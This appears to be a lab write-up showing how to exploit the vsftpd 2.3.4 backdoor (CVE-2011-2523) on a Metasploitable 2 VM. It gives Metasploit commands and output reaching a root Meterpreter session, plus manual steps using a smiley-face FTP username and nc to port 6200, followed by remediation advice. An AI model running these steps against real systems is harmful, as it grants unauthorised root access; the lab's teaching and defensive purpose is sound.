

# 04 — vsftpd 2.3.4 Backdoor Exploit

## 🎯 Goal of This Step
Use a known hidden backdoor in the FTP software to gain **full root (admin) control** of the Victim Machine — the most critical finding in this lab.

## 🔑 Machines in This Step

| Role | Machine | IP Address |
|------|---------|------------|
| 🟥 Attacker | Kali Linux | `192.168.1.80` |
| 🟩 Victim / Target | Metasploitable 2 | `192.168.1.50` |

---

## Vulnerability Overview

| Field | Value |
|-------|-------|
| CVE | CVE-2011-2523 |
| CVSS Score | 10.0 (Critical) |
| Affected Version | vsftpd 2.3.4 (running on the 🟩 Victim Machine) |
| Type | Supply Chain Attack + Backdoor |
| Access Gained | Root shell via port 6200 |

---

## How the Backdoor Works (Plain English)

In 2011, an attacker secretly modified the official vsftpd source code and hid a "cheat code" inside it. If someone logs in to FTP using a username that contains a smiley face `:)`, the software secretly opens a hidden root shell on **port 6200**. Anyone who then connects to that port gets full control of the machine — no password needed.

```c
if (p_buf[i] == 0x3A && p_buf[i+1] == 0x29) {  // ':' and ')'
    vsf_sysutil_extra();   // Opens root shell on port 6200
}
```

---

## 🖼️ How the Attack Works



---

## Exploitation via Metasploit (run FROM 🟥 Attacker Machine, targeting 🟩 Victim Machine)

```bash
msfconsole
search vsftpd
use 1                              # exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.1.50            # 🟩 the Victim Machine being attacked
set LHOST 192.168.1.80             # 🟥 this Kali machine — where the result comes back to
exploit
```

### Actual Output:
```
[*] Started reverse TCP handler on 192.168.1.80:4444
[*] FTP banner hints its vulnerable: 220 (vsFTPd 2.3.4)
[+] The target appears to be vulnerable
[+] Backdoor has been spawned!
[*] Meterpreter session 1 opened (192.168.1.80:4444 → 192.168.1.50:47384)

meterpreter > getuid
Server username: root
```
✅ **Root shell obtained via Meterpreter!** The Attacker Machine now fully controls the Victim Machine.

---

## Manual Exploitation (Without Metasploit)

**Terminal 1 (on 🟥 Attacker Machine) — Trigger the backdoor:**
```bash
ftp 192.168.1.50
# Username: megha:)
# Password: anything
# Connection will hang — backdoor is now open on port 6200 (on the Victim Machine)
```

**Terminal 2 (on 🟥 Attacker Machine) — Connect to the backdoor:**
```bash
nc 192.168.1.50 6200
whoami
# root
```
**In plain English:** The first terminal "knocks" on the secret door using the smiley-face trick. The second terminal walks through that now-open door and confirms it has full (`root`) control of the Victim Machine.

---

## Remediation
1. Upgrade vsftpd beyond version 2.3.4
2. Verify software checksums (SHA256) before installing
3. Block port 6200 at the firewall
4. Use intrusion detection for unusual port openings
